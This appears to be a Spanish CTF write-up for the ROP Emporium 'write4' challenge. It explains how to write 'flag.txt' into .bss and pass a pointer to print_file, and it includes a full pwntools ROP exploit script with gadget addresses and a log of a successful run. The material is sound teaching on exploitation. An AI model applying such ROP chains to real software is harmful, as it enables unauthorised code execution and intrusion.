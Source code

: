 Este ejercicio es casi el mismo que [callme](https://ub1cu0.gitbook.io/pwn-writeups/ropemporium/3.-callme-x86_64). La diferencia principal es que en lugar de tener que llamar a unas funciones de la libc externa con x parámetros para desencriptar hay que llamar una función, también de la libc que nos dan, y pasarle por parámetro un puntero al string "flag.txt", vamos a verlo:

```c
void print_file(char *param_1)
{
    char array[40];
    FILE *ptr_flag;

    ptr_flag = (FILE *)0x0;
    ptr_flag = fopen(param_1, "r"); // Aquí
    if (ptr_flag == (FILE *)0x0) {
        printf("Failed to open file: %s\n", param_1);
        exit(1);
    }

    fgets(array, 0x21, ptr_flag);
    puts(array);
    fclose(ptr_flag);
    return;
}
```

Como podemos ver se abre el archivo que le pasemos como parámetro a la función y luego la imprime usando punteros. Parece fácil, simplemente usamos un gadget que haga un `pop rdi` y le pasamos `flag.txt` y listo, no? Pues no es tan fácil ya que `fopen` pide un puntero a un string y no el valor directamente. Para solucionar esto vamos a meter `flag.txt` en la sección de memoria `.bss` usando un gadget y luego vamos a mandarle el puntero como parámetro. Con pwntools podemos automatizar la búsqueda de la dirección inicial de bss con `exe.bss()`. Vamos a hacer el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("write4")
libc = ELF("libwrite4.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    offset = 40
    pop_rdi = 0x00400693 # pop rdi, ret
    mov_r14_r15 = 0x00400628 # mov qword ptr [r14], r15 ; ret
    pop_r14_r15 = 0x00400690 # pop r14 ; pop r15 ; ret
    
    payload = flat({
        offset: [
            pop_r14_r15, exe.bss(), b'flag.txt',
            mov_r14_r15,
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
        ]
    })

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()

```

> Si el programa escribiera algo en .bss habría que tenerlo en cuenta y sumar a `exe.bss()` lo necesario para que cuadre con el primer espacio libre

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/write4/write4': pid 799711
[DEBUG] Received 0x4a bytes:
    b'write4 by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Go ahead and give me the input already!\n'
    b'\n'
    b'> '
[DEBUG] Sent 0x61 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  90 06 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  38 10 60 00  00 00 00 00  66 6c 61 67  2e 74 78 74  │8·`·│····│flag│.txt│
    00000040  28 06 40 00  00 00 00 00  93 06 40 00  00 00 00 00  │(·@·│····│··@·│····│
    00000050  38 10 60 00  00 00 00 00  10 05 40 00  00 00 00 00  │8·`·│····│··@·│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
```

Y así conseguiremos la flag!
